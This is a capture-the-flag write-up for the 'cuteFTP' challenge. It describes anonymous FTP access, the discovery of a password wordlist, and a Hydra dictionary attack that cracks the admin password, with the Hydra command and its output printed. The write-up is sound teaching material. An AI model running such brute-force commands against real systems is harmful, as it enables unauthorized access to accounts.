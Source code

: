 # cuteFTP (Misc - 120 pts)

### [~$ cd ..](../)

> A chaotic admin set up an FTP challenge but might have misplaced some files.  
> 63.35.125.97:21

We firstly logged in as anonymous without a password. We were able to access to some files and folders.

In those files we found a lot of pictures of cats, [lists of words](assets/kublaiBADPASSWORDS.list) and a [list of users](assets/users.list).
On the other hand we had a folder with subfolders representing the users. In the admin folder we found a [README.txt](assets/README.txt), here is the content:
> ```
>Please don't abuse this server! This FTP server is used to share my favourite  
>cats (there's only one thing I like more than cats). Feel free to browse through  
>them and download your favourites. If you want to add your own cats shoot me a mail   
>(darthcatlover9001@sharklasers.com) and I'll give you a user account. The cats you  
>add will then appear in the /users/username/public folder.
>If you're into lists instead of cats you might also like my other FTP server.  
>I sometimes get confused so if I misplaced a list on this server please let me know.
>~JarJar B. McPaws~
> ```

And a [thanksto.txt](assets/thanksto.tx) containing:
> ```
> Thanks to:
> -Maxogden (for helping me start my collection)
> -Charlottd
> -Charlottf
> -Dennis
> ```

Thanks to the list, we thought about launching a dictionary attack on the FTP service to try to log in with the admin account.

We decided to use Hydra to perform this action.

> ```sh
>hydra 52.17.165.245 ftp -l admin -P /root/Desktop/kublaiBADPASSWORDS.list
>Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or  
>secret service organizations, or for illegal purposes.
>Hydra (http://www.thc.org/thc-hydra) starting at 2019-03-30 11:29:09 	
>[DATA] max 16 tasks per 1 server, overall 16 tasks, 666 login tries  
>(l:1/p:666), ~42 tries per task
>[DATA] attacking ftp://52.17.165.245:21/
>[STATUS] 96.00 tries/min, 96 tries in 00:01h, 570 to do in 00:06h, 16 active
>[STATUS] 85.67 tries/min, 257 tries in 00:03h, 409 to do in 00:05h, 16 active
>	[21][ftp] host: 52.17.165.245   login: admin   password: cookies
>...
> ```

We are now able to log in with the admin account and the password cookies.

On this account we found a a file in the following path [/admin/flag.txt](assets/flag.txt): `CSC{I'm_a_flag-da-be-die-dabe-flag!}`
